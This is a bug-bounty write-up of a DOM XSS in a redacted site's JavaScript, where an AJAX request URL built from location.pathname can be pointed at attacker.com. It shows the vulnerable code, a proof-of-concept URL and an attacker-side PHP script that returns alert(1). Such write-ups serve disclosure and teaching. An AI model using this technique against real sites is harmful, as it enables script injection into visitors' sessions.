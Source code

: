 ```yaml
---
layout: post
title: "BugBounty | A Dom Xss"
tags: [bugbounty, Xss]
comments: true
---
```


I was working on a private program which i cannot disclose

I checked the js file by the way when I checked the request. Found a suspicious piece of code

**www.xxxxx.com**   domain 

**/xxxxxxxxx/**    path

https://www.xxxxx.com/xxxxxxxxx/pdp.min.js

Vuln code

![Image failed to load
e](https://raw.githubusercontent.com/Jinone/123/master/_posts/image1/t33.png)

ajax Get request response write to page

![Image failed to load
e](https://raw.githubusercontent.com/Jinone/123/master/_posts/image1/t44.png)

Normal request looks like this

Visit this site

https://www.xxxxx.com/xxxxxxxxx

ajax will make such a request

https://www.xxxxx.com/xxxxxxxxx/showProductRedemption?productCode=263625


      var prefix = location.pathname;
      var url = prefix + "/showProductRedemption?productCode=" + vpCode;
                $.ajax({
                    url: url,
                    type: "GET",
                    dataType: "html",
                    success: function(res) {
                        PDP.AjaxResponse.showProductRedemption(res);
                    },
                    error: function(res) {
                        console.error(res);
                    }
                });


But ***location.pathname*** attackers can control

So when location.pathname is set to //attacker.com

The browser will go to attacker.com

This will visit the attacker's website to get their website content

**POC**

https://www.xxxxx.com//attacker.com/xxxxxxxxx

location.pathname is //attacker.com/xxxxxxxxx
```
//attacker.com = https://attacker.com
```
ajax will request https://attacker.com/xxxxxxxxx for the response content

Attackers just need to set up their own website content

After Ajax gets the response from the attacker's website, it will write xsspayload to the page

An example with php

    <?php
    header("Access-Control-Allow-Origin: *");
    header("Access-Control-Allow-Credentials: true");
    header("Access-Control-Request-Methods:GET, POST, PUT, DELETE, OPTIONS");
    
    echo '<script>alert(1);</script>';
    ?>



So when the user visits https://www.xxxxx.com//attacker.com/xxxxxxxxx

Will trigger this dom xss![Image failed to load
e](https://raw.githubusercontent.com/Jinone/123/master/_posts/image1/t31.png)


Finally

![Image failed to load
e](https://raw.githubusercontent.com/Jinone/123/master/_posts/image1/t20.png)

Thanks!
